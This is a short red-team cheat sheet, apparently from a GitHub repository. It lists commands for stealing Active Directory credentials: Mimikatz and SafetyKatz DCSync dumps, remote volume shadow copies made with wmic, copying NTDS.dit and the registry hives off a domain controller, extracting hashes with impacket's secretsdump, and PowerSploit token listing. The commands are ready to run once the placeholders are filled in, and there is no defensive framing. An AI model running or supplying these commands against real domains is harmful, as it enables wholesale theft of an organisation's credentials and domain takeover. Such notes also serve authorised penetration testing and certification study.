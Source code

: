 ## DC Sync
- Extract creds from the DC without code execution using DA privileges.

#### Mimikatz DCSync attack specific user
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<USER> /domain:<DOMAIN>"'
```

#### Mimikatz DCSync attack everything
```
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
```

#### Safetykatz.exe
```
SafetyKatz.exe "lsadump::dcsync /user:<DOMAIN>\<USER>" "exit"
```

## Shadowcopy
#### Create shadowcopy of the C:\ drive
```
wmic /node:<DC FQDN> /user:<USER>@<DOMAIN FQDN> /password:'<PASSWORD>' process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```

#### Copy the NTDS.dit, SYSTEM and SECURITY hives
```
wmic /node:<DC FQDN> /user:<USER>@<DOMAIN FQDN> /password:'<PASSWORD>' process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```

#### Mount the C:\temp drive
```
$creds = Get-Credential
New-PSDrive -Credential $creds -Name j \\<DC FQDN>\c$\temp -PSProvider FileSystem
```

#### Extract credentials
```
python3 /opt/impacket/examples/secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```

## Token manipulation
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1

#### List all tokens on a machine
```
Invoke-TokenManipulation –ShowAll
```
